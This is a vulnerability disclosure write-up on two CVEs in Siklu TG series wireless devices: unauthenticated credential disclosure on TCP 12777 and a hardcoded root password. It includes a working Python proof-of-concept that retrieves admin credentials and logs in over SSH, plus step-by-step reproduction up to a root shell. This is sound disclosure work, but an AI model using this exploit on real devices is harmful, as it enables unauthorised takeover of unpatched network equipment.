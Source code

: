 ```yaml
---
title: CVE-2022-47036 & CVE-2022-47037 - Siklu TG Series - Unauthenticated Credential Disclosure and Static Root Credentials
tags: research cve security siklu CVE-2022-47036 CVE-2022-47037
author: Andrew
---
```


## Investigation

Whilst performing a security review of the Siklu TG series of devices, I encountered an interesting behaviour that would allow the "access point" (_DN_) to have full control of its "stations" (_CN_) without any authentication.

Further investigation of this behaviour revealed the Clixon backend process with an IPv6 binding on `TCP 12777`, capturing traffic on this port revealed a sequence of commands which would disclose unique randomly generated credentials for remote administration.

By default all interfaces (ethernet/wireless) on the devices are enabled and attached to the
management plane. With access to an interface in the management plane, the exploit can be
utilised to gain admin level access.

During this investigation it was also noted the `root` user had a weak `md5crypt` hashed password, which was brute forced, but the only observable way to utilise this account remotely was with the `debug login` command once admin access to the device was obtained.


## Impact

Disclosure of device admin credentials allows for full control of the local device, and in the instance of the _DN_ would include all attached _CN_ devices.

The admin credentials can be used to disrupt service, and potentially adjust network configuration details to gain access to other VLANs.

If further `root` access is obtained on the device, a _CN_ would be able to repeat the attack to obtain access to the _DN_ via the `h2h` "host to host" interface on the devices which will bypass bridge filtering.

As the devices run the [Yocto](https://www.yoctoproject.org/) linux distro, once `root` is obtained almost any attack is possible in addition to persistance, such as sniffing network packets.


## Credential Disclosure Exploit PoC
```python
import socket
import sys
import os

address = str(sys.argv[1])  # the target
port = 12777

# Captured command, sends "GetCredentials" to obtain random generated username/password
cmd = bytearray.fromhex("000000290FFF000100000001000100000000800100010000000E47657443726564656E7469616C730000000000")

addrinfo = socket.getaddrinfo(address, port, socket.AF_INET6, socket.SOCK_STREAM)
(family, socktype, proto, canonname, sockaddr) = addrinfo[0]
s = socket.socket(socket.AF_INET6, socket.SOCK_STREAM)
s.connect(sockaddr)
s.send(cmd)
data = s.recv(200)
s.close()
#print('Raw data: ', data)
output = "".join(map(chr, data))
#print('Force Converted: ', output)

# Split output, then remove trailing noise as string length is always 35
splits = output.split('#')
username = splits[1][slice(0, 35, 1)]
password = splits[2][slice(0, 35, 1)]
print('Username: ', username)
print('Password: ', password)
os.system("sshpass -p {password} ssh -o StrictHostKeychecking=no {address} -l {username}".format(address = address, username = username, password = password))
```

## Steps to reproduce
1. Ping the 'all hosts' multicast address for interface attached to victim device
    ```shell
    > ping6 -I en7 -c 2 ff02::1
    ```

2. Show all discovered neighbours, identify the victim device by MAC vendor
    ```shell
    > ip -6 neigh show dev en7
    fd3d:e051:727a:46fe:****:****:****:**** lladdr a0:ce:c8:**:**:** REACHABLE
    fe80::1c9f:****:****:**** lladdr a0:ce:c8:**:**:** REACHABLE
    fe80::34d9:1337:b33f:7001 lladdr 0:24:a4:**:**:** REACHABLE
    ```

3. Run exploit
    ```shell
    > python3 tg-getcreds.py fe80::34d9:1337:b33f:7001%en7
    Username:  3bEUccGF8IUTBd4pyOboFlkRIV2NVEuSgEg
    Password:  8J0a/eFkunhGwLsx3mGVgGHORgF4GXyS7gY
    MH-T265@17471234>
    ```
4. Upgrade to `root` shell
    ```shell
    MH-T265@17471234>debug login
    root>
    ```

## Outcomes
After submitting the disclosure report to Siklu they released the 2.1.1 firmware release for the TG series devices, which resolved the credential disclosure exploit.

Siklu did not provide public advice in the release notes of this security issue being resolved.

As for the static root password, it will be removed from new devices in a hardware fix, with no mitigations available for existing products.

These vulnerabilities were assigned the following CVE IDs
- [CVE-2022-47036](https://www.cve.org/CVERecord?id=CVE-2022-47036) - Hardcoded Root Credentials
- [CVE-2022-47037](https://www.cve.org/CVERecord?id=CVE-2022-47037) - Unauthenticated Credential Disclosure

**Affected Products:**

Siklu TG Series

**Mitigation:**

Update your Siklu TG Series devices to **Version 2.1.1 or later**.
